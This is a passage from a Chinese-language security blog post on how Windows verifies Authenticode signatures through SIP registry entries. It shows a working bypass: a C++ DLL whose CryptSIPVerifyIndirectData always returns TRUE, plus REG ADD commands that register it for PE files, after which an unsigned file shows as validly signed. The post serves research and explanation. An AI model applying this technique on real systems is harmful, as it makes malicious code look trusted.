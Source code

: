 查找资料，找到该函数，地址如下：

https://msdn.microsoft.com/en-us/library/windows/desktop/cc542591%28v=vs.85%29.aspx

发现该函数，返回TRUE代表验证成功，返回FALSE代表验证失败

该功能对应注册表键值，位置如下：

`HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-10/3-2.png)

不同GUID对应不同文件格式的验证，例如：

- C689AAB8-8E78-11D0-8C47-00C04FC295EE - PE
- DE351A43-8E59-11D0-8C47-00C04FC295EE - catalog	.cat文件 	 
- 9BA61D3F-E73A-11D0-8CD2-00C04FC295EE - CTL 		.ctl文件
- C689AABA-8E78-11D0-8C47-00C04FC295EE - cabinet 	.cab文件

**注：**

GUID说明引用自[《Subverting Trust in Windows》](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf) Page4

接下来，尝试替换`HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}`下的dll和FuncName

通过c++实现，创建dll，添加导出函数，格式参照`CryptSIPVerifyIndirectData`，代码如下：

```
BOOL WINAPI CryptSIPVerifyIndirectData(SIP_SUBJECTINFO *pSubjectInfo, SIP_INDIRECT_DATA *pIndirectData)
{
	return TRUE;
}
```

编译生成signtest.dll

修改注册表：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\signtest.dll" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "CryptSIPVerifyIndirectData" /f
```

重新启动cmd，使用powershell进行验证：

```
Get-AuthenticodeSignature .\si.exe
```

显示Valid，校验成功

如下图
